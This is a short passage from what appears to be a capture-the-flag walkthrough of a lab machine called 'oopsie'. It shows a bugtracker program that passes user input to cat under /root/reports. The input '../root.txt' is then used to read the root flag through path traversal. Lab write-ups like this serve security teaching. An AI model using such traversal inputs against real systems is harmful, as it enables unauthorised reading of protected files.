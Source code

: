 ```
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```

Let's try some weird input like a negative number:

```
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: -1
---------------

cat: /root/reports/-1: No such file or directory
```

So it's bascially just appending our input to a directory string... we can modify it in such a way, that it will print the root.txt for us. 

```
robert@oopsie:/var/www/html/cdn-cgi/login$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```
There we go. We pwned the machine.

